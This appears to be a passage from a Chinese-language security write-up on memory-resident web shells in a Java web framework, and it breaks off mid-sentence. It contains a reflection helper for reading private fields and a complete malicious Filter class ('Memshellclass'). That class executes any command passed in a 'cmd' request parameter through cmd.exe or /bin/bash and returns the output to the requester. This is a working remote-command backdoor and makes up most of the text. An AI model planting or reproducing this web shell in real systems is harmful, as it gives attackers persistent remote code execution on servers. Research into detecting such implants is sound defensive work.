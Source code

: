 其中`refgetFileobj`方法如下：

```java
public Object getfieldobj(Object obj, String Filename) throws NoSuchFieldException, IllegalAccessException {  
    try{  
        Field field = obj.getClass().getDeclaredField(Filename);  
        field.setAccessible(true);  
        Object fieldobj = field.get(obj);  
        return fieldobj;  
    }catch (NoSuchFieldException e) {  
        Field field = obj.getClass().getSuperclass().getDeclaredField(Filename);  
        field.setAccessible(true);  
        Object fieldobj = field.get(obj);  
        return fieldobj;  
    }    
}
```

恶意Filter:

```java
public class Memshellclass implements Filter{  
    @Override  
    public void doFilter(Context ctx, FilterChain chain) throws Throwable {  
        try{  
            if(ctx.param("cmd")!=null){  
                String str = ctx.param("cmd");  
                try{  
                    String[] cmds =  
                            System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe",  
                                    "/c", str} : new String[]{"/bin/bash", "-c", str};  
                    String output = (new java.util.Scanner((new  
                            ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();  
                    ctx.output(output);  
                }catch (Exception e) {  
                    e.printStackTrace();  
                }  
            }  
        }catch (Throwable e){  
            ctx.output(e.getMessage());  
        }  
        chain.doFilter(ctx);  
    }  
}
```

RouterInterceptor内存马
--------------------

RouterInterceptor内存马和Filter内存马差不多，其实在上面的initRouter方法已经发现了`addInterceptor`方法调用了
